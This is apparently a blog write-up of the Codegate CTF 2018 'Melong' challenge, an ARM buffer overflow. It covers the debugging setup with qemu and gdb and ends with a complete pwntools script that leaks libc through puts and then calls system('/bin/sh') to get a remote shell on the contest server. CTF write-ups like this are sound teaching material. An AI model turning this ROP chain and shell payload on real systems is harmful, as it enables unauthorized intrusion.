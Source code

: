 ```yaml
---
title:        "Codegate CTF 2018"

# jekyll-seo-tag

author:       "Ne0"

---
```

Yesterday I played the Codegate CTF 2018 with Lotus-Eur3kA, a combination with Blue-Lotus and Eur3kA. Unluckily, there are several challenges we didn't solve in time and finally we got rank 21.

## Melong
The challenge is not difficult, but it is the first arm exploit I solved in a CTF game. So I will try to make this wp more detailed.The challenge can be download in [here](https://github.com/Changochen/CTF/tree/master/2018/Codegate/melong).

The exploit in arm is almost the same with that in X86. All we need to know is how arm makes function calls.  
To be short, arm use r0-r3 to store the first 4 argument, with r0 storing the first and r4 the fourth. And no jmp or call instruction in arm, but b or bl instead.

### Program info

Let's take a look in the program
```bash
[*] '/home/ne0/Desktop/codegate/melong/melong'
    Arch:     arm-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x10000)
```
### Debug

To run the program, I use qemu-arm:
```bash
qemu-arm  -g 1234 -L /usr/arm-linux-gnueabi ./melong
```
- -L dir: dir is /path/to/lib_for_arm
- -g port: for remote debug

At another console, run the gdb for arm:
```bash
arm-none-eabi-gdb melong
```
In gdb, we run:
```bash
gdb-peda$ target remote localhost:1234
Remote debugging using localhost:1234
warning: A handler for the OS ABI "GNU/Linux" is not built into this configuration
of GDB.  Attempting to continue with the default armv5t settings.

Warning: not running or target is remote
Save/restore a working gdb session to file as a script
Usage:
    session save [filename]
    session restore [filename]

0xf67ceb00 in ?? ()
gdb-peda$ c
Continuing.
```

Then we see the program running:
```bash
➜  melong qemu-arm -g 1234 -L /usr/arm-linux-gnueabi ./melong 
Welcome to the BPSEC gym

1. Check your bmi
2. Exercise
3. Register personal training
4. Write daily record
5. Have some health menu
6. Out of the gym

Type the number:
```
### Exploit

The logic in the program is easy, so I leave it out. To trigger buffer overflow, all you need to to is:
1. check bmi once
2. Register training, enter -1
3. write dairy with unlimited length,thus overflow.

To find useful gadget, I use ROPgadget, and the only gadget I use is
```armasm
0x00011bbc : pop {r0, pc}
```

The flow is the same as X86:
- Leak the libc address
- Return to main or somewhere else to trigger buffer overflow again
- Get shell

To leak, we set r0=puts got, pc=puts plt.
After puts is called, the program will fetch the eip from stack, so we can fill it with the address we want to return.
Thus the finall exp is

```python
from pwn import *
remote_addr="ch41l3ng3s.codegate.kr"
remote_port=1199

libc=ELF('/usr/arm-linux-gnueabi/lib/libc.so.6')
p=remote(remote_addr,remote_port)

def go(payload):
    choice(1)
    sla('Your height(meters) : ','1')
    sla('Your weight(kilograms) : ','1')
    choice(3)
    sla('take personal training?\n','-1')
    choice(4)
    sl(payload)
    choice(6)
    rl()
 
def hack():
    pop_r0=0x00011bbc
    main=0x110CC
    puts_plt=0x0104A8
    puts_got=0x2301c
    payload='A'*84+p32(pop_r0)+p32(puts_got)+p32(puts_plt)
    payload+=p32(main)*8
    go(payload)
    libc.address=u32(p.recv(4))-libc.symbols['puts']
    lg("LIBc",libc.address)
    payload='A'*84+p32(pop_r0)+p32(libc.search('/bin/sh').next())+p32(libc.symbols['system'])
    go(payload)
    p.interactive()

hack()
```

By the way, the libc is not provided in the attachment. But the libc in the server happens to match my qemu libc. So I solved it without having to find the correct libc

## Zoo
To be continued....
